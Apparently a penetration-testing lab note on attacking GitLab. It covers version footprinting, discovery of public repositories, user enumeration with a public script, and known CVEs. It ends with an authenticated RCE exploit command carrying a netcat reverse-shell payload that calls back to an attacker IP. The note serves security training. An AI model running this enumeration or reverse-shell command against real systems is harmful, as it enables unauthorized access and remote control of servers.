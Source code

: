 ### Footprinting + Enumeration
![[Pasted image 20250210063304.png]]
#### Footprinting Version
The only way to footprint the **GitLab version number** in use is by browsing to the `/help` page when logged in. If the GitLab instance allows us to register an account, we can log in and browse to this page to confirm the version. If we cannot register an account, we may have to try a low-risk exploit such as [this](https://www.exploit-db.com/exploits/49821).

#### Public Repositories
We can discover public repositories by visiting `/explore` on the instance. From here, we can explore each of the pages linked in the top left `groups`, `snippets`, and `help`. We can also use the search functionality and see if we can uncover any other projects.
![[Pasted image 20250210063555.png]]
#### Registering a new user
Suppose the organization did not set up GitLab only to allow company emails to register or require an admin to approve a new account. In that case, we may be able to access additional data.
![[Pasted image 20250210064003.png]]

In a real-world scenario, we may be able to find a considerable amount of sensitive data if we can register and gain access to any of their repositories. As this [blog post](https://tillsongalloway.com/finding-sensitive-information-on-github/index.html) explains, there is a considerable amount of data that we may be able to uncover on GitLab, GitHub, etc.

### Exploitation
#### Username Enumeration
Though not considered a vulnerability by GitLab as seen on their [Hackerone](https://hackerone.com/gitlab?type=team) page ("User and project enumeration/path disclosure unless an additional impact can be demonstrated"), it is still something worth checking as it could result in access if users are selecting weak passwords

We can use [this one](https://www.exploit-db.com/exploits/49821) to enumerate a list of valid users. The Python3 version of this same tool can be found [here](https://github.com/dpgg101/GitLabUserEnum).
```bash
python3 gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ --wordlist ~/opt/wordlists/usernames_small.txt
```
- /usr/share/seclists/Usernames/cirt-default-usernames.txt
- 

#### Known Vulnerabilities
There have been a few serious exploits against GitLab [12.9.0](https://www.exploit-db.com/exploits/48431) and GitLab [11.4.7](https://www.exploit-db.com/exploits/49257) in the past few years as well as GitLab Community Edition [13.10.3](https://www.exploit-db.com/exploits/49821), [13.9.3](https://www.exploit-db.com/exploits/49944), and [13.10.2](https://www.exploit-db.com/exploits/49951).

###### Authenticated RCE
Community Edition version 13.10.2 and lower suffered from an authenticated remote code execution [vulnerability](https://hackerone.com/reports/1154542) due to an issue with ExifTool handling metadata in uploaded image files. We can use this [exploit](https://www.exploit-db.com/exploits/49951) to achieve RCE

```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u adot -p 'Pwned123!' -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.155 4443 >/tmp/f '
```